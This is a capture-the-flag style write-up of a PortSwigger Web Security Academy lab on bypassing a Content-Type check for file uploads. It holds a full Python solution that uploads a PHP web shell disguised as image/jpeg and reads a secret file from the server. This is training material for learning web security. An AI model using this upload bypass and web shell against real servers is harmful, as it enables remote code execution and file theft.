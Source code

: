 ```yaml
---
title: Web shell upload via Content-Type restriction bypass
tags:
  - web-app
  - file
  - upload
  - vulnerability
---
```


<a href="https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass/">
2. Web shell upload via Content-Type restriction bypass</a>

We abuse the same vulnerability as <a href="1.md">lab 1</a>, but this time the
website restricts the Content-Type of the uploaded file. We bypass this
restriction by uploading a file with a valid Content-Type, image/jpeg, but the
file's extension and contents are PHP. We then access the file directly to gain
remote code execution on the server, downloading the contents of
/home/carlos/secret.

Solution:

```python
# usage:
# python3 2.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net \
# --f /home/carlos/secret

import re
from argparse import ArgumentParser

import requests


class Solution:
    def __init__(self, url: str, filename: str) -> None:
        self.url = url.rstrip("/")
        self.filename = filename
        self.s = None

    def login(self, username: str, password: str) -> requests.Response:
        login_url = f"{self.url}/login"
        self.s = requests.Session()
        r = self.s.get(login_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        r = self.s.post(
            login_url,
            data={
                "csrf": csrf,
                "username": username,
                "password": password,
            },
        )

        return r

    def solve(self) -> None:
        self.login("wiener", "peter")

        files = {
            "avatar": (
                "shell.php",
                f"<?php echo file_get_contents('{self.filename}'); ?>",
                "image/jpeg",
            )
        }

        my_account_url = f"{self.url}/my-account"
        r = self.s.get(my_account_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        self.s.post(
            my_account_url + "/avatar",
            files=files,
            data={"csrf": csrf, "user": "wiener"},
        )
        r = self.s.get(f"{self.url}/files/avatars/shell.php")
        self.s.post(f"{self.url}/submitSolution", data={"answer": r.text})


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--f", "--filename", dest="filename")
    args = parser.parse_args()
    s = Solution(args.url, args.filename)
    s.solve()


if __name__ == "__main__":
    main()
```
